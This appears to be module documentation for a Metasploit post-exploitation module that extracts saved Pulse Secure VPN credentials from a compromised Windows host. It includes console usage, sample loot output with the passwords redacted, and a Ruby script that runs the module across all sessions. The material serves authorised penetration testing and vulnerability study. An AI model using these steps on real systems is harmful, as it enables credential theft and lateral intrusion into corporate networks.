 ## Vulnerable Application

Pulse Secure VPN Client for versions 9.1 prior to 9.1R4 and 9.0 prior to 9.0R5.

An end-to-end setup with working Juniper Pulse Secure VPN server, Pulse Secure client on
Microsoft Windows, and valid credentials are required for Pulse Secure client to save
credentials locally and therefore test this.

## Verification Steps

1. Get a Meterpreter shell on a Windows machine that has Pulse Secure client installed.
2. Load the module: `use post/windows/gather/credentials/pulse_secure`
3. Set the correct session on the module: `set SESSION *session id*`
4. Run the module with `run` and enjoy the loot.

## Scenarios

### Normal mode
```
msf > use post/windows/gather/credentials/pulse_secure
msf > set SESSION 1
msf > run
```

Output:

```
[*] Checking for Pulse Secure IVE profiles in the registry
[+] Account Found:
[*]      Username:
[*]      Password: REDACTED
[*]      URI: https://connect.contoso.com/pulse
[*]      Name: Home Working VPN (EU)
[*]      Source: user
[+] Account Found:
[*]      Username:
[*]      Password: REDACTED
[*]      URI: https://connect.contoso.com/pulse
[*]      Name: Home Working VPN (US)
[*]      Source: user
[*] Post module execution completed
```

### Run on all sessions
If you wish to run the post against all sessions from framework, here is how:

1. Create the following resource script:
```
framework.sessions.each_pair do |sid, session|
  run_single("use post/windows/gather/credentials/pulse_secure")
  run_single("set SESSION #{sid}")
  run_single("run")
end
```
2. At the msf prompt, execute the above resource script:
`msf > resource path-to-resource-script`

## References

- https://qkaiser.github.io/reversing/2020/10/27/pule-secure-credentials
- https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44601
